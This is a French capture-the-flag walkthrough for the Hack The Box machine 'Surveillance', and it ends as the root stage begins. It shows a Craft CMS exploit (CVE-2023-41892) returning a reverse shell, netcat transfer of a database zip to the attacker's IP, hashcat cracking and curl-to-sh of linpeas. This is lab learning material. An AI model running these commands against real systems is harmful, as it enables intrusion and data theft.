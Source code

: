 # Surveillance

## Process

On est lancer sur une adresse ip sur la quelle on a accés a un site web.
Aprés un `dirsearch` sur le domaine de la machines. On tombe sur un directory qui pourra nous etre utils: `/administrator/login`

Une fois rajouter l'extension au domaine on tombe sur une page login sur la quelle on peut lire `craft CMS`.

Partons à la recherche d'une CVE de en rapport avec ce CMS.
On tombe sur la `CVE-2023-41892`.<br/>

En y allant un peu a l'aveugle on part à la recherche d'un exploit de cette cve et on tombe sur un git hub qui nous donne un script a executer je creer un fichier .py et entre le script a l'intérieur.

```bash
python3 cve-2023-41892.py http://surveillance.htb [mon-ip] 443
```

Tout en lançant avant cela un ncat:

```bash
nc -lvnp 443
```

En lançant le script celui ci me renvoi un shell sur le ncat.

Je lance directement:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ce qui me donnent un shelle stable.

Aprés de multiple recherche des piste bien différente les une des autre des hash impossible a crack... je tombe sur un fichier zip que je décide de télécharger.

Je lance donc une commande nc pour recevoir un fichier avec un fichier de destination.

```bash
nc -lvnp 443 > db.zip
```

Puis je lance le téléchargement du fichier sur la machine distante prenans la destination puis le fichier a télécharger.

```bash
nc -w 3 [mon-ip] 443 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Maintenant que je l'ai recu je l'unzip et je vais analyser ce fichier.
Je trouve dans le fichier un hash dans la table `users`.
Je le copie et créer un fichier `hash.txt`.
Le type du hash aprés un rapide passage sur `hash analyzer`: est `SHA2-256` je lance donc un hascat:

```bash
hashcat -m1400 hash.txt /usr/share/wordlists/rockyou.txt
```

Cracked password: `***************`

On est donc connecter a la machines via le ssh!! Maintenant! 

## Root Flag

Bizarrement facile pour le user nous allons voir comment cela ce passe pour le root.

Donc pour commencer je décide de télécharger `linpeas` sur la machine afin de voir si celui ci trouve un fichier sur le quelle nous pourrions passer.

Je télécharge donc linpeas sur ma machines, [source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Une fois télécharger je lance un serveur.

```bash
python3 -m http.server 80
```

En ouvrant ce serveur je peut lancer cette commande qui pourras donc en précisant l'ip et le chemin a suivre allé télécharger linpeas sur la machines distante.

```bash
curl [mon-ip]/home/user/Documents/outils/peass/linpeass.sh | sh
```

Maintenant qu'il est présent sur la machines je le lance.
On ne sait jamais avant de ce lancer dans une recherche interminable.🤞

Beaucoup de chose a analyser apparaissent c'est parti pour la recherche.<br/>

Note: Zoneminder est un logiciel de video surveillance, opensource.<br/>
voyons si l'on peut faire quelque chose avec ça.